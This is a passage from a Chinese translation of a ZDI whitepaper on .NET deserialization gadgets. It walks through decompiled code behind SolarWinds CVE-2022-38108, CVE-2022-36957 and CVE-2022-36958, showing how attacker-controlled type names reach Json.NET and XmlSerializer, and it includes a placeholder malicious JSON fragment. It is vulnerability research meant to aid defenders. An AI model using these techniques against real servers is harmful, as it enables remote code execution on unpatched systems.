# .NET 反序列化小工具应用分析

[↓↓↓](javascript:)  
  
  
  
[↑↑↑](javascript:)

2024 年 01 月 17 日  
[安全工具&安全开发](https://paper.seebug.org/category/tools/)

## 目录

-   [简介](#_1)
-   [1 SolarWinds 平台 - 反序列化问题和自定义小工具绕过黑名单](#1-solarwinds-)
    -   [1.1 SolarWinds 平台 - CVE-2022-38108](#11-solarwinds-cve-2022-38108)
    -   [1.2 SolarWinds 平台 - CVE-2022-36957](#12-solarwinds-cve-2022-36957)
    -   [1.3 SolarWinds Platform – CVE-2022-36958](#13-solarwinds-platform-cve-2022-36958)
    -   [1.4 SolarWinds 平台 – CVE-2022-36964](#14-solarwinds-cve-2022-36964)
    -   [1.5 SolarWinds 平台 – 已实施的缓解措施](#15-solarwinds)
    -   [1.6 SolarWinds 平台 – 第一个绕过 - CVE-2022-38111](#16-solarwinds-cve-2022-38111)
    -   [1.7 SolarWinds Platform – 第二个绕过 – CVE-2022-47503](#17-solarwinds-platform-cve-2022-47503)
    -   [1.8 SolarWinds Platform – 第 3 个绕过 - CVE-2022-47507](#18-solarwinds-platform-3-cve-2022-47507)
    -   [1.9 SolarWinds 平台 - 第 4 次绕过 - CVE-2023-23836](#19-solarwinds-4-cve-2023-23836)
    -   [1.10 SolarWinds 平台 – 总结](#110-solarwinds)
-   [2 反序列化小工具在第三方库中](#2)
    -   [2.1 Grpc.Core – UnmanagedLibrary 远程 DLL 加载](#21-grpccore-unmanagedlibrary-dll)
    -   [2.1 Xunit Runner Utility – Xunit1Executor 远程 DLL 加载](#21-xunit-runner-utility-xunit1executordll)
    -   [2.3 MongoDB Libmongocrypt – WindowsLibrary / LinuxLibrary / DarwinLibrary](#23-mongodb-libmongocrypt-windowslibrary-linuxlibrary-darwinlibrary)
    -   [2.4 Xunit Execution – PreserveWorkingFolder](#24-xunit-execution-preserveworkingfolder)
    -   [2.6 Microsoft Azure Cosmos – QueryPartitionProvider](#26-microsoft-azure-cosmos-querypartitionprovider)
    -   [2.7 Microsoft Application Insights - FileDiagnosticsTelemetryModule](#27-microsoft-application-insights-filediagnosticstelemetrymodule)
    -   [2.7 NLOG – CountingSingleProcessFileAppender / SingleProcessFileAppender / MutexMultiProcessFileAppender](#27-nlog-countingsingleprocessfileappender-singleprocessfileappender-mutexmultiprocessfileappender)
    -   [2.8 Google Apis - FileDataStore](#28-google-apis-filedatastore)
-   [3 Delta Electronics InfraSuite Device Master](#3-delta-electronics-infrasuite-device-master)
    -   [3.1 InfraSuite Device Master – 初始漏洞](#31-infrasuite-device-master)
    -   [3.2 InfraSuite Device Master – 实施的缓解措施和 MessagePack 序列化程序](#32-infrasuite-device-master-messagepack)
    -   [3.3 InfraSuite Device Master – 反序列化导致身份验证绕过](#33-infrasuite-device-master)
    -   [3.4 InfraSuite Device Master – 寻找未经身份验证的远程代码执行](#34-infrasuite-device-master)
-   [4 不安全序列化](#4)
    -   [4.1 不安全序列化 - 概念概述](#41-)
    -   [4.2 不安全的序列化 - .NET Framework 中的小工具](#42-net-framework)
        -   [4.2.1 不安全的序列化 – SettingsPropertyValue 远程代码执行小工具](#421-settingspropertyvalue)
        -   [4.2.2 不安全的序列化 – SecurityException 远程代码执行小工具](#422-securityexception)
        -   [4.2.3 不安全序列化 – CompilerResults 本地 DLL 加载小工具](#423-compilerresults-dll)
    -   [4.3 不安全的序列化 - 第三方库中的小工具](#43-)
        -   [4.3.1 不安全的序列化 - Apache NMS ActiveMQObjectMessage 远程代码执行小工具](#431-apache-nms-activemqobjectmessage)
        -   [4.3.2 不安全的序列化 – Amazon AWSSDK 核心 OptimisticLockedTextFile 任意文件阅读小工具](#432-amazon-awssdk-optimisticlockedtextfile)
        -   [4.3.3 不安全的序列化 – Castle Core CustomUri 环境变量泄漏](#433-castle-core-customuri)
    -   [4.4 不安全的序列化 – Azure.Core QueryPartitionProvider 反序列化小工具触发序列化](#44-azurecore-querypartitionprovider)
    -   [4.5 不安全的序列化 – Delta Electronics InfraSuite Device Master CVE-2023-1139 和 CVE-2023-1145](#45-delta-electronics-infrasuite-device-master-cve-2023-1139-cve-2023-1145)
    -   [4.5 不安全的序列化 – SolarWinds Platform CVE-2022-47504](#45-solarwinds-platform-cve-2022-47504)
-   [5 .NET Framework 中的新反序列化小工具](#5-net-framework)
    -   [5.1 任意 getter 调用小工具的想法](#51-getter)
        -   [5.1.1 PropertyGrid - 任意 getter 调用小工具](#511-propertygrid-getter)
        -   [5.1.2 ComboBox - 任意 getter 调用小工具](#512-combobox-getter)
        -   [5.1.3 ListBox - 任意 getter 调用小工具](#513-listbox-getter)
        -   [5.1.4 CheckedListBox - 任意 getter 调用小工具](#514-checkedlistbox-getter)
    -   [5.2 将任意 Getter 调用小工具与不安全的序列化小工具结合使用](#52-getter)
        -   [5.2.1 示例 - PropertyGrid + SecurityException 小工具](#521-propertygrid-securityexception)
        -   [5.2.2 示例 – ComboBox + SettingsPropertyValue 小工具](#522-combobox-settingspropertyvalue)
    -   [5.3 XamlImageInfo - RemoteCodeExecution 小工具](#53-xamlimageinfo-remotecodeexecution)
        -   [5.3.1 变体 1 – 基于 GAC：](#531-1-gac)
        -   [5.3.2 变体 2 – Microsoft.Web.Deployment：](#532-2-microsoftwebdeployment)
    -   [5.4 关于 XamlReader 的一些想法](#54-xamlreader)
    -   [5.5 其他小工具 – SSRF、拒绝服务和潜在的 SetCurrentDirectory](#55-ssrf-setcurrentdirectory)
        -   [5.5.1 潜在的 SetCurrentDirectory 小工具](#551-setcurrentdirectory)
        -   [5.5.2 PictureBox - SSRF 小工具](#552-picturebox-ssrf)
        -   [5.5.3 InfiniteProgressPage - SSRF 小工具](#553-infiniteprogresspage-ssrf)
        -   [5.5.4 FileLogTraceListener - DoS 小工具](#554-filelogtracelistener-dos)
    -   [5.6 Delta Electronics InfraSuite 设备主机 – CVE-2023-34347](#56-delta-electronics-infrasuite-cve-2023-34347)
-   [6 .NET>=5 中的反序列化和序列化小工具](#6-net5)
    -   [6.1 .NET>=5 —— ObjectDataProvider 反序列化小工具](#61-net5-objectdataprovider)
    -   [6.2 .NET>=5 —— BaseActivationFactory 反序列化小工具](#62-net5-baseactivationfactory)
    -   [6.3 .NET>=5 – CompilerResults 序列化小工具和反序列化小工具链](#63-net5-compilerresults)
-   [7 总结](#7)
-   [参考链接](#_2)

**原文链接：[https://github.com/thezdi/presentations/blob/main/2023\_Hexacon/whitepaper-net-deser.pdf](https://github.com/thezdi/presentations/blob/main/2023_Hexacon/whitepaper-net-deser.pdf)**  
**译者：知道创宇 404 实验室翻译组**

### 简介

不受信任数据的反序列化是多种编程语言中最常被滥用的漏洞类型之一。2015 年，Gabriel Lawrence 和 Chris Frohoff 发表了一篇关于 Java 反序列化攻击的演讲，引起了人们对反序列化漏洞的广泛关注。早在 2012 年，James Foreshaw 在 Black Hat 上就呈现了 .NET 方面与反序列化相关的白皮书。随后，Alvaro Munoz 和 Oleksandr Mirosh 在 2017 年的 Black Hat 上进行了一项名为“Friday the 13th JSON Attacks”的研究。他们的工作主要聚焦在 .NET 和 Java JSON/XML 反序列化漏洞，包括：

-   回顾基于 JSON/XML 的序列化程序。
-   多个反序列化小工具，可用于滥用不安全的反序列化。
-   .NET 中实际环境反序列化漏洞的示例（如 DotNetNuke CVE-2017-9822 漏洞）。

这两篇白皮书是揭示 .NET 反序列化危险性的重要里程碑。最后，ysoserial.net 工具 4 被发布，它实现了针对不同序列化程序的多个小工具。凭借该工具，.NET 反序列化漏洞的发现率得以大幅提高。这一类漏洞在多个产品和应用程序中被严重滥用，包括 SolarWinds 平台、Microsoft SharePoint、Microsoft Exchange 等。

在过去的几年中，漏洞研究社区在 ysoserial.net 项目上做出了巨大贡献，并扩展了 .NET 反序列化知识：

-   发现了多个新的反序列化小工具。
-   发现了新的与反序列化相关的攻击向量（例如，资源文件解析中的反序列化问题）。
-   针对以反序列化为导向的控件的绕过（例如，绕过.NET 序列化绑定器）。

随着此类漏洞日益流行，反序列化问题变得更难寻找和利用。通常，为防止滥用，反序列化程序会采用两种经典的保护方法：

-   允许类型的列表（首选）—— 只允许对选定的类型进行反序列化。这些列表通常很庞大，甚至可以包含数百或数千个类。
-   阻止类型的列表（不首选，但仍然流行）—— 一些类型不允许进行反序列化。这些列表通常基于 ysoserial.net 工具中实现的小工具和前述 Black Hat 白皮书中描述的小工具。

通常情况下，当漏洞研究人员发现某个反序列化点在黑名单（或允许列表）中，禁止（或允许）使用公开已知的小工具时，他们倾向于将其视为安全的。这种方法是合理的，由于我们不知道小工具可以用来攻击目标，因此无法滥用这个反序列化程序。但如果我们的知识是不足的呢？

通过这项研究，我想要表明，即使是经过强化的目标也可能存在可利用的漏洞。首先，本研究主要关注 .NET 基于 setter 的序列化器，原因有几点：

-   这些序列化器被广泛应用于多种产品，尤其是 Newtonsoft.Json（也称为 JSON.NET），其通过 NuGet 的下载次数接近 30 亿次，几乎所有的 .NET 版本（包括 .NET Framework 和 .NET >= 5）都能够支持。
-   二进制序列化器正在变得过时（BinaryFormatter 在较新版本的 .NET 中已经过时），而基于 setter 的序列化器被广泛使用并得到维护。

其次，在本研究中，我想要展示几个主要的概念：

-   Ysoserial.net 基于 .NET Framework 中存在的小工具，但攻击面要大得多，它可以成功地用于绕过允许/阻止列表：
    -   反序列化小工具可能存在于产品代码库中。例如，我在 SolarWinds 类中发现了多个反序列化小工具，这使我能够绕过已实施的缓解措施。
    -   反序列化小工具存在于广泛使用的库中。它们可以像 ysoserial.net 中实现的小工具一样成功使用，而完全不引起注意。而且，其中一些小工具可能会用于 .NET >= 5，这似乎是一种重大变化。
-   我们往往寻找一种轻松获取远程代码执行的方法，但这并非总行得通。我们可以找到可能间接导致代码执行的反序列化小工具（如任意文件读取或服务器端请求伪造小工具）。
-   新的序列化器可能会出现并受到滥用。我曾在 ICS/SCADA 产品中滥用了目前未知但非常强大的 MessagePack 序列化器。这个序列化器越来越受欢迎，可能会出现在某些产品的未来版本中。
-   反序列化可以用来滥用产品内置的功能，实现一些意想不到的效果，比如绕过身份验证或修改产品配置。
-   在 .NET Framework 中仍然有新的小工具。本白皮书包含了几个新的反序列化小工具，适用于多个反序列化器，如 Json.NET、XamlReader 或 MessagePack。
-   在 .NET >= 5 中存在远程代码执行小工具，允许进行远程 DLL 加载。这可能是 .NET 较新版本中的第一批代码执行小工具。
-   不安全的序列化是存在的。尽管有可能产品已经加强了反序列化的安全性，但攻击者仍有可能通过操控对象的序列化来实施利用。本白皮书包括：
    -   .NET Framework 中可以导致远程代码执行的两个序列化小工具。
    -   第三方库中的序列化小工具。
    -   在两个不同产品中存在的不安全序列化漏洞的两个实际示例：SolarWinds 平台和 Delta Electronics InfraSuite Device Master。

这项研究有两个主要目标。首先，我希望展示那些看似无害的目标实际上可能更容易受到攻击，以帮助漏洞研究人员和开发人员提高他们的安全意识，从而促使产品更安全。

其次，我相信小工具将提高攻击检测能力。多种面向防御的解决方案（如 WAF、IDS 或 IPS）都是基于小工具签名的，当攻击者滥用产品代码库或第三方库中包含的未知小工具时，他的攻击可能完全不被察觉。

这项研究得到我在 SolarWinds 平台和 Delta Electronics InfraSuite 设备中发现了多个漏洞。

### 1 SolarWinds 平台 - 反序列化问题和自定义小工具绕过黑名单

在过去的两年里，有多个关于 SolarWinds 平台及其子产品的不安全反序列化问题的报告。不同的研究人员在其附加组件中发现了一些漏洞，例如，研究人员“testanull”在 SolarWinds Patch Manager11 中发现了多个反序列化问题，但我重点关注最重要的 SolarWinds 平台本身。

在这一章中，我想要：

-   提供关于四个 SolarWinds 反序列化漏洞的详细信息，其中一些尤为有趣。这些漏洞也基于不同的序列化器，因此这一节可以作为一个很好的入门章节。
-   描述已实施的缓解措施。
-   展示针对 Json.NET 实施的 SolarWinds 黑名单绑定器的 4 种绕过方法。这些绕过可以分为两部分：
    -   一个反序列化小工具，尽管它未在 ysoserial.net 中为 Json.NET 序列化器实现，并未引起关注。
    -   在 SolarWinds 内部代码库中发现的 3 个反序列化小工具。

首先快速回顾一下几个旧的 SolarWinds 反序列化漏洞。

#### 1.1 SolarWinds 平台 - CVE-2022-38108

多个 SolarWinds 服务通过一个 RabbitMQ 实例进行通信，该实例通过端口 5671/TCP 可访问。要访问它，需要提供凭据。然而：

-   高权限用户能够通过 SolarWinds Orion 平台提取这些凭据。
-   后来我发现了 CVE-2023-3322512，允许低权限用户提取这些凭据。

该漏洞针对 SolarWinds 信息服务。为了向信息服务传递 AMQP 消息，消息的 Routing-Key 必须设置为 SwisPubSub。让我们验证 SolarWinds 如何处理这些 `EasyNetQ.Consumer.HandleBasicDeliver` 方法：

````plain
public void HandleBasicDeliver(string consumerTag, ulong deliveryTag, bool
redelivered, string exchange, string routingKey, IBasicProperties properties,
byte[] body)
{
    ...
    ...
    CS$<>8__locals1.messageProperties = new MessageProperties(properties); // [1]
```

```
    ConsumerExecutionContext context = new
ConsumerExecutionContext(this.OnMessage, CS$<>8__locals1.messageReceivedInfo,
CS$<>8__locals1.messageProperties, CS$<>8__locals1.body); // [2]
    this.eventBus.Publish<DeliveredMessageEvent>(new
DeliveredMessageEvent(CS$<>8__locals1.messageReceivedInfo,
CS$<>8__locals1.messageProperties, CS$<>8__locals1.body));

this.handlerRunner.InvokeUserMessageHandlerAsync(context).ContinueWith<Task>(dele
gate(Task<AckStrategy> x)
{
        BasicConsumer.<>c__DisplayClass21_0.<<HandleBasicDeliver>b__0>d
<<HandleBasicDeliver>b__0>d;
        <<HandleBasicDeliver>b__0>d.<>4__this = CS$<>8__locals1;
        <<HandleBasicDeliver>b__0>d.x = x;
        <<HandleBasicDeliver>b__0>d.<>t__builder =
AsyncTaskMethodBuilder.Create();
        <<HandleBasicDeliver>b__0>d.<>1__state = -1;
        AsyncTaskMethodBuilder <>t__builder =
<<HandleBasicDeliver>b__0>d.<>t__builder;

<>t__builder.Start<BasicConsumer.<>c__DisplayClass21_0.<<HandleBasicDeliver>b__0>
d>(ref <<HandleBasicDeliver>b__0>d);
        return <<HandleBasicDeliver>b__0>d.<>t__builder.Task;
    }, TaskContinuationOptions.ExecuteSynchronously); // [3]
}
````

代码段 1 CVE-2022-38108 - HandleBasicDeliver 方法

在\[1\]处，该代码检索 AMQP 消息的属性。这些属性由发送消息的攻击者控制。

在\[2\]处，它创建一个执行上下文，包含 AMQP 消息属性和消息正文。

在\[3\]处，它执行一个任务来利用该消息。

这将引导我们到“利用”方法：

```plain
public IDisposable Consume(IQueue queue, Action<IHandlerRegistration>
addHandlers, Action<IConsumerConfiguration> configure)
{
    Preconditions.CheckNotNull<IQueue>(queue, "queue");
    Preconditions.CheckNotNull<Action<IHandlerRegistration>>(addHandlers,
"addHandlers");
    Preconditions.CheckNotNull<Action<IConsumerConfiguration>>(configure,
"configure");
    IHandlerCollection handlerCollection =
this.handlerCollectionFactory.CreateHandlerCollection(queue);
    addHandlers(handlerCollection);
    return this.Consume(queue, delegate(byte[] body, MessageProperties
properties, MessageReceivedInfo messageReceivedInfo)
    {
        IMessage message =
this.messageSerializationStrategy.DeserializeMessage(properties, body); // [1]
        return handlerCollection.GetHandler(message.MessageType)(message,
messageReceivedInfo);
    }, configure);
}
```

代码段 2 CVE-2022-38108 - Consume 方法

在\[1\]处，调用了 `EasyNetQ.DefaultMessageSerializationStrategy.DeserializeMessage`，它接受消息属性和消息正文作为输入。

```plain
public IMessage DeserializeMessage(MessageProperties properties, byte[] body)
{
    Type messageType = this.typeNameSerializer.DeSerialize(properties.Type); //
[1]
    object body2 = this.serializer.BytesToMessage(messageType, body); // [2]
    return MessageFactory.CreateInstance(messageType, body2, properties);
}
```

代码段 3 CVE-2022-38108 - DeserializeMessage method

在\[1\]处，我们可以看到一些非常有趣的东西。调用一个名为 `DeSerialize` 的方法，并返回一个 Type 类型的输出。作为输入，它接受消息的 Type 属性。也就是说，通过 AMQP 消息属性，我们可以控制 `messageType` 的类型。

在\[2\]处，它调用了 `BytesToMessage`，该方法接受攻击者控制的类型和消息正文作为输入。

```plain
public object BytesToMessage(Type messageType, byte[] bytes)
{
    string @string = Encoding.UTF8.GetString(bytes); // [1]
    EasyNetQSerializer._log.TraceFormat("Decoding msg to type {0}: {1}", new
object[]
    {
       "messageType",
       @string
    });
    return JsonConvert.DeserializeObject(@string, messageType,
this.serializerSettings); // [2]
}
private static readonly Log _log = new Log();
private readonly JsonSerializerSettings serializerSettings = new
JsonSerializerSettings
{
    TypeNameHandling = TypeNameHandling.Auto, // [3]
    Converters = new JsonConverter[]
    {
        new VersionConverter()
}
};
```

代码段 4 CVE-2022-38108 - BytesToMessage 方法

在\[1\]处，消息正文被解码为 UTF-8 字符串。它应该包含 JSON 格式的数据。

在\[2\]处，进行了反序列化。我们控制目标类型和序列化的负载。

在\[3\]处，可以看到 `TypeNameHandling` 反序列化被设置为 Auto。

在这里，我们拥有了比实现远程代码执行更多的资源。为了做到这一点，我们必须发送一个 AMQP 消息，其中 Type 属性设置为一个危险的类型。以下截图显示了示例性消息，其中 Type 属性设置为 `WindowsPrincipal` —— 通常已知在 `ysoserial.net` 中实现的反序列化小工具。



图 1 通过 AMQP 消息属性控制的 Type

在消息正文中，我们必须传递相应的 `Json.NET` 小工具，以实现远程代码执行。

#### 1.2 SolarWinds 平台 - CVE-2022-36957

在前面的漏洞中，我们通过 AMQP 属性完全控制了目标反序列化类型。当我发现这样的漏洞时，我喜欢问自己以下问题：“合法消息是什么样的？”我经常检查在典型产品操作期间进行反序列化的类型，并得到有趣的发现。我很快意识到 SolarWinds 只发送一种类型的消息：`SolarWinds.MessageBus.Models.Indication`。

让我们花点时间分析一下这个类型：

```plain
[DataContract]
[Serializable]
public class Indication
{
    [DataMember(Order = 1)]
    public Guid SubscriptionId { get; set; }
    [DataMember(Order = 2)]
    public string IndicationType { get; set; }
    [DataMember(Order = 3)]
    public PropertyBag IndicationProperties { get; set; } // [1]
    [DataMember(Order = 4)]
    public PropertyBag SourceInstanceProperties { get; set; } // [2]
}
```

代码段 5 CVE-2022-36957 - Indication class

在 \[1\] 和 \[2\] 中，我们可以看到两个 `SolarWinds.MessageBus.Models.PropertyBag` 类型的公共成员。

```plain
[XmlRoot("dictionary", Namespace =
"http://schemas.solarwinds.com/2007/08/informationservice/propertybag")]
[JsonConverter(typeof(PropertyBagJsonConverter))] // [2]
[Serializable]
public class PropertyBag : Dictionary<string, object>, IXmlSerializable // [1]
{
    public PropertyBag() : base(StringComparer.OrdinalIgnoreCase)
    {
    }
    ...
}
```

代码段 6 CVE-2022-36957 - PropertyBag class

在\[1\]处，可以看到所讨论的类 `SolarWinds.MessageBus.Models.PropertyBag` 的定义。

在\[2\]处，为这个类注册了一个自定义转换器 - `SolarWinds.MessageBus.Models.PropertyBagJsonConverter`。它实现了 ReadJson 方法，在反序列化期间将被调用。

```plain
public override object ReadJson(JsonReader reader, Type objectType, object
existingValue, JsonSerializer serializer)
{
    if (reader.TokenType == JsonToken.Null)
{
        return null;
}
if (reader.TokenType == JsonToken.StartObject)
{
    PropertyBag propertyBag = new PropertyBag();
    foreach (JProperty jproperty in JObject.Load(reader).Properties()) // [1]
{
        object value;
        if (jproperty.Value.Type == JTokenType.Null)
        {
            value = null;
        }
        else
        {
            JObject jobject = (JObject)jproperty.Value; // [2]
            Type type = Type.GetType((string)jobject["t"]); // [3]
            value = jobject["v"].ToObject(type, serializer); // [4]
        }
        propertyBag[jproperty.Name] = value;
    }
    return propertyBag;
    }
    throw new InvalidOperationException(string.Format("Unexpected json token type
{0}", reader.TokenType));
}
```

代码段 7 CVE-2022-36957 - ReadJson 转换方法

在\[1\]处，代码遍历 JSON 属性。

在\[2\]处，检索并将 JSON 值转换为 JObject 类型。

在\[3\]处，根据 t 键中存储的值检索一个 Type。

在\[4\]处，对存储在 v 键中的对象进行反序列化，我们再次控制目标反序列化类型。

可以看到，我们再次能够控制反序列化类型，这种类型通过 t JSON 键传递，序列化的负载通过 v 键传递。

让我们看一个合法消息的片段：

```plain
{
    "IndicationProperties": {
        "IndicationId": {
            "t": "System.Guid",
            "v": "f1d36712-c689-4133-babb-9da0f8381c5c"
        },
        "IndicationTime": {
            "t": "System.DateTime",
            "v": "2022-05-19T09:47:58.5791014Z"
        },
        "SequenceNumber": {
            "t": "System.Int64",
            "v": 33
        },
        "AccountId": {
            "t": "System.String",
            "v": "SYSTEM"
        }
    }
}
```

代码段 8 CVE-2022-36957 - 合法 JSON 的片段

我们可以取任何属性，例如：IndicationId。然后，我们需要：

-   将 t 键的值设置为恶意类型的名称。
-   将 v 键的值设置为恶意序列化的负载。

由于 JSON 反序列化设置为 `TypeNameHandling.Auto`，只需传递类似以下的内容即可：

```plain
"IndicationId": {
    "t": "System.Object",
    "v": {MALICIOUS-GADGET-HERE}
}
```

代码段 9 CVE-2022-36957 - 恶意消息片段

现在，让我们设想上面描述的第一个漏洞 CVE-2022-38108 已经通过将目标反序列化类型硬编码为`SolarWinds.MessageBus.Models.Indication` 而得到修复。毕竟，这是唯一合法进行反序列化的类型。但是这个修复并不足够，因为 `SolarWinds.MessageBus.Models.Indication` 可以用于传递一个内部对象，其类型由攻击者控制。通过对类型的控制，我们在这里获得了第二个远程代码执行。

#### 1.3 SolarWinds Platform – CVE-2022-36958

SolarWinds 定义了一些内部操作，称为“SWIS 动词”。这些动词可以是：a) 通过 API 直接调用。  
b) 通过 Orion 平台 Web 用户界面间接调用（Orion 平台在内部调用）。

关于 SWIS 动词，有几件事情我们需要知道：

-   它们是使用 XML 结构中的有效负载调用的。
-   它们接受预定义类型的参数。

例如，考虑 `Orion.AgentManagement.Agent.Deploy` 动词。它接受 12 个参数。以下截图展示了这些参数及其相应的类型。



图 2 CVE-2022-36958 - Arguments for Orion.AgentManagement.Agent.Deploy Verb

参数的处理由 `SolarWinds.InformationService.Verb.VerbExecutorContext.UnpackageParameters(XmlElement[], Stream)`方法执行：

```plain
public void UnpackageParameters(XmlElement[] parameters, Stream stream)
{
    ...
    ...
    Type argumentType = this._executor.GetArgumentType(index); // [1]
    XmlElement xmlElement = parameters[index];
    object result;
    try
    {
        ...
        ...
        else
        {
            DataContractSerializer dataContractSerializer = new
DataContractSerializer(argumentType); // [2]
            string attribute = xmlElement.GetAttribute("nil",
"http://www.w3.org/2001/XMLSchema-instance");
            if ("true".Equals(attribute, StringComparison.OrdinalIgnoreCase))
            {
                result = null;
            }
            else if (xmlElement.Name.Equals("ArrayOfanyType"))
            {
                IList list = null;
                foreach (object obj in xmlElement.ChildNodes)
                {
                    XmlElement xmlElement2 = (XmlElement)obj;
                    object obj2 =
dataContractSerializer.ReadObject(xmlElement2.CreateNavigator().ReadSubtree(),
false); // [3]
                    if (list == null)
                    {
                        Type type = obj2.GetType();
                        list =
(IList)Activator.CreateInstance(typeof(List<>).MakeGenericType(new Type[]
                        {
                            type
                        }));
                    }
                    list.Add(obj2);
                }
                result = list.GetType().GetMethod("ToArray").Invoke(list, null);
            }
            else
            {
                result =
dataContractSerializer.ReadObject(xmlElement.CreateNavigator().ReadSubtree(),
false); // [4]
            }
        }
    }
    ...
    ...
}
```

代码段 10 CVE-2022-36958 - UnpackageParameters 方法

在\[1\]处，为给定的动词参数检索类型。

在\[2\]处，使用检索到的参数类型初始化 `DataContractSerializer`。

在\[3\]和\[4\]处，对参数进行反序列化。

我们正在处理一个 `DataContractSerializer`。尽管无法控制反序列化类型，但已经找到了一些可滥用的 `PropertyBag` 类。

有多个 SWIS 动词接受名为 `SolarWinds.InformationService.Addons.PropertyBag` 类型的参数。我们可以提供任意 XML，将其反序列化为此类型的对象。

```plain
[XmlRoot("dictionary", Namespace =
"http://schemas.solarwinds.com/2007/08/informationservice/propertybag")]
[XmlSchemaProvider("GetSchema")]
[Serializable]
public class PropertyBag : Dictionary<string, object>, IXmlSerializable
{
...
    public void ReadXml(XmlReader reader) // [1]
    {
        foreach (XElement parent in
PropertyBag.ElementsNamespaceOptional((XElement)XNode.ReadFrom(reader), "item"))
// [2]
        {
            XElement xelement = PropertyBag.ElementNamespaceOptional(parent,
"key"); // [3]
            if (xelement != null)
            {
                string value = xelement.Value;
                XElement xelement2 = PropertyBag.ElementNamespaceOptional(parent,
"type"); // [4]
                if (xelement2 != null)
                {
                    string value2 = xelement2.Value;
                    XAttribute xattribute = xelement2.Attribute("overrideType");
                    if (xattribute != null)
                    {
                        value2 = xattribute.Value;
                    }
                    object value3 = null;
                    XElement xelement3 =
PropertyBag.ElementNamespaceOptional(parent, "value"); // [5]
                    if (xelement3 != null && !xelement3.IsEmpty)
                    {
                        string value4 = xelement3.Value;
                        value3 = this.Deserialize(value4, value2); // [6]
                    }
                    base.Add(value, value3);
                }
            }
        }

    }
    protected virtual object Deserialize(string serializedValue, string typeName)
    {
        return SerializationHelper.Deserialize(serializedValue, typeName); // [7]
    }
    ...
}
```

代码段 11 CVE-2022-36958 - ReadXml 方法

在\[1\]处，定义了 ReadXml 方法。它将在反序列化期间调用。

在\[2\]处，代码遍历提供的项目。

在\[3\]处，检索 key 元素。如果存在，代码将继续执行。

在\[4\]处，检索 type 元素的值。

在\[5\]处，检索 value 元素的值。

在\[6\]处，调用 `Deserialize` 方法，并将 value 和 type 标签中包含的数据作为输入提供。

在\[7\]处，序列化的负载和类型名称传递给`SolarWinds.InformationService.Serialization.SerializationHelper.Deserialize`方法。

同样，类型和序列化的负载都由攻击者控制。让我验证一下这个反序列化方法。

```plain
public static object Deserialize(string value, string typename) 
{ 
    SerializerInfo serializerInfo; 
    object result; 
    if (SerializationHelper.cachedObjectTypes.TryGetValue(typename, out 
serializerInfo)) // [1] 
    { 
         result = serializerInfo.DeSerializer(value, serializerInfo.ObjectType); 
    } 
    else 
     { 
        Type type = Type.GetType(typename); // [2] 
        result = SerializationHelper.DeserializeFromStrippedXml(value, type); //  
[3] 
    } 
    return result; 
}
```

代码段 12 CVE-2022-36958 - Deserialize 方法

在\[1\]处，代码检查提供的类型是否已缓存。

如果没有，将在\[2\]处从字符串中检索该类型。

在\[3\]处，调用了静态的 `DeserializeFromStrippedXml`。

```plain
public static object DeserializeFromStrippedXml(string value, Type type)
{
    return
SerializationHelper.serializerCache.GetSerializer(type).DeserializeFromStrippedXm
l(value);
}
```

代码段 13 CVE-2022-36958 - DeserializeFromStrippedXml 方法

正如我们所看到的，静态的 `DeserializeFromStrippedXml` 方法通过调用`SerializationHelper.serializerCache.GetSerializer(type)`检索一个序列化器对象。然后，它在检索到的序列化器对象上调用（非静态的）`DeserializeFromStrippedXml(string)`方法。

让我们看看如何检索序列化器。

```plain
public XmlStrippedSerializer GetSerializer(Type type)
{
    string fullName = type.FullName;
    XmlStrippedSerializerCache._log.DebugFormat("Requesting serializer for {0}",
fullName);
    XmlStrippedSerializer serializerInternal;
    if (!this.cache.TryGetValue(fullName, out serializerInternal)) // [1]
    {
        serializerInternal = this.GetSerializerInternal(type, fullName); // [2]
    }
    return serializerInternal;
}
private XmlStrippedSerializer GetSerializerInternal(Type type, string typeName)
{
    XmlTypeMapping xmlTypeMapping = new
XmlReflectionImporter().ImportTypeMapping(type); // [3]
    XmlStrippedSerializer value = new XmlStrippedSerializer(new
XmlSerializer(type), xmlTypeMapping.XsdElementName, xmlTypeMapping.Namespace,
type); // [4]
    return this.cache.GetOrAdd(typeName, value);
}
```

代码段 14 CVE-2022-36958 - GetSerializer 方法

在\[1\]处，代码尝试从缓存中检索序列化器。

